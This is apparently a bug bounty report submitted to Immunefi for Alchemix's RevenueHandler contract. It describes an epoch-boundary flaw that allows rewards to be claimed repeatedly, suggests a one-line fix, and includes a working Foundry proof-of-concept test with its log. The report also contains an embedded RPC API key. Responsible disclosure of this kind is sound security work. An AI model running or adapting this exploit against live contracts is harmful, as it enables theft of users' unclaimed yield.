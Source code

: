 
# # `RevenueHandler.checkpoint` allows users to claim rewards in the current block causing attacker can claim rewards repeatedly  -

Submitted on Wed May 15 2024 13:01:43 GMT-0400 (Atlantic Standard Time) by @yttriumzz for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31242

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RevenueHandler.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro

The `RevenueHandler` contract receives the revenue from Alchemix protocol. One part of the revenue
is sent to the treasury. The rest is distributed to users that have $veToken. Each $veToken can claim rewards once per epoch. Anyone can call the `RevenueHandler.checkpoint` interface to refresh the `currentEpoch`. However, the `checkpoint` interface allows the `currentEpoch` to be updated to the timestamp of the current block, allowing attackers to use `VotingEscrow.merge` to repeatedly claim rewards.

## Vulnerability Details

Please look at the following code. When `block.timestamp` is equal to `currentEpoch + WEEK`, `currentEpoch` is updated to `block.timestamp`.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L228-L231
    function checkpoint() public {
        // only run checkpoint() once per epoch
        if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

The `RevenueHandler` contract calculates the number of rewards that can be claimed for a certain $veToken based on the value of the $veToken at the `currentEpoch` time point. Please see the code below.

```solidity
///// https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/RevenueHandler.sol#L314-L324
        for (
            uint256 epochTimestamp = lastClaimEpochTimestamp + WEEK;
            epochTimestamp <= currentEpoch;
            epochTimestamp += WEEK
        ) {
            uint256 epochTotalVeSupply = IVotingEscrow(veALCX).totalSupplyAtT(epochTimestamp);
            if (epochTotalVeSupply == 0) continue;
            uint256 epochRevenue = epochRevenues[epochTimestamp][token];
            uint256 epochUserVeBalance = IVotingEscrow(veALCX).balanceOfTokenAt(tokenId, epochTimestamp);
            totalClaimable += (epochRevenue * epochUserVeBalance) / epochTotalVeSupply;
        }
```

If `currentEpoch` can be set as the timestamp of the current block, then after the user claim the $veToken reward in the current block, he can transfer the value of $veToken to another $veToken through `VotingEscrow.merge` to continue claim it. The attack steps are briefly described below. Please see the PoC for details.

1. When the `block.timestamp` of the block happens to be `currentEpoch + WEEK`, the attacker calls `RevenueHandler.checkpoint` to update `currentEpoch` to `block.timestamp`
2. The attacker mints a $veTokenA and claim the reward
3. The attacker mints a $veTokenTemp worth 1 wei with a cost of `~0`
4. The attacker merges $veTokenA into $veTokenTemp and claim rewards for $veTokenTemp
5. Treat $veTokenTemp as $veTokenA and go back to Step2

Note that all the above steps are run in the same block.

**Suggested fix**

Users should only be able to claim past rewards

```diff
    function checkpoint() public {
        // only run checkpoint() once per epoch
-       if (block.timestamp >= currentEpoch + WEEK /* && initializer == address(0) */) {
+       if (block.timestamp > currentEpoch + WEEK /* && initializer == address(0) */) {
            currentEpoch = (block.timestamp / WEEK) * WEEK;
```

## Impact Details

Users can claim rewards repeatedly

## References

None
        
## Proof of concept
## Proof of Concept

The PoC patch

```diff
diff --git a/src/test/RevenueHandler.t.sol b/src/test/RevenueHandler.t.sol
index 7908478..dab62e9 100644
--- a/src/test/RevenueHandler.t.sol
+++ b/src/test/RevenueHandler.t.sol
@@ -644,4 +644,62 @@ contract RevenueHandlerTest is BaseTest {
         revenueHandler.setTreasury(admin);
         assertEq(revenueHandler.treasury(), admin, "treasury should be admin");
     }
+
+    function testYttriumzzPocTemp() external {
+        // 0. Init test env
+        vm.warp((block.timestamp / 2 weeks) * 2 weeks);
+        hevm.startPrank(admin);
+        deal(bpt, admin, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+        veALCX.checkpoint();
+        veALCX.createLock(10000e18, 0, true);
+        hevm.stopPrank();
+
+        // 1. Start test and init BPT token
+        address attacker = address(0xa77ac8e3);
+        hevm.startPrank(attacker);
+        console.log(">>>>> Init balance of rewards token");
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        deal(bpt, attacker, 10000e18);
+        IERC20(bpt).approve(address(veALCX),  type(uint256).max);
+
+        // 2. Checkpoint RevenueHandler
+        //    It is required that `block.timestamp` is exactly `currentEpoch + WEEK`, `block.timestamp` is in seconds, so it is likely to happen.
+        deal(bal, address(revenueHandler), 100e18);
+        vm.warp(block.timestamp + 2 weeks);
+        revenueHandler.checkpoint();
+
+        // 3. Start steal rewards
+        //    Step 3 and step 2 exist in the same block
+        console.log(">>>>> Claim the veToken");
+        veALCX.checkpoint();
+        uint256 tokenId1 = veALCX.createLock(1e18, 0, true);
+        revenueHandler.claim(tokenId1, bal, address(0), revenueHandler.claimable(tokenId1, bal), attacker);
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 50 times");
+        for (uint256 i = 0; i < 50; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        console.log(">>>>> Start steal rewards 100 times");
+        for (uint256 i = 0; i < 100; i++) {
+            uint256 tokenIdTemp = veALCX.createLock(1, 0, true);
+            veALCX.merge(tokenId1, tokenIdTemp);
+            revenueHandler.claim(tokenIdTemp, bal, address(0), revenueHandler.claimable(tokenIdTemp, bal), attacker);
+            tokenId1 = tokenIdTemp;
+        }
+        console.log(">> bal.balanceOf(attacker): %s", IERC20(bal).balanceOf(attacker));
+        console.log();
+
+        hevm.stopPrank();
+    }
 }
```

Run the PoC

```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
```

The log

```bash
$ FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/VFefkgjj8h3SgRYcCvmtp9KoMJJij6gD --fork-block-number 17133822 -vvv --match-test testYttriumzzPocTemp
[⠊] Compiling...
No files changed, compilation skipped

Ran 1 test for src/test/RevenueHandler.t.sol:RevenueHandlerTest
[PASS] testYttriumzzPocTemp() (gas: 118159985)
Logs:
  >>>>> Init balance of rewards token
  >> bal.balanceOf(attacker): 0
  
  >>>>> Claim the veToken
  >> bal.balanceOf(attacker): 9999000099906589
  
  >>>>> Start steal rewards 50 times
  >> bal.balanceOf(attacker): 509949005095236039
  
  >>>>> Start steal rewards 100 times
  >> bal.balanceOf(attacker): 1509849015085894939
  

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 458.15ms (442.17ms CPU time)

Ran 1 test suite in 2.09s (458.15ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

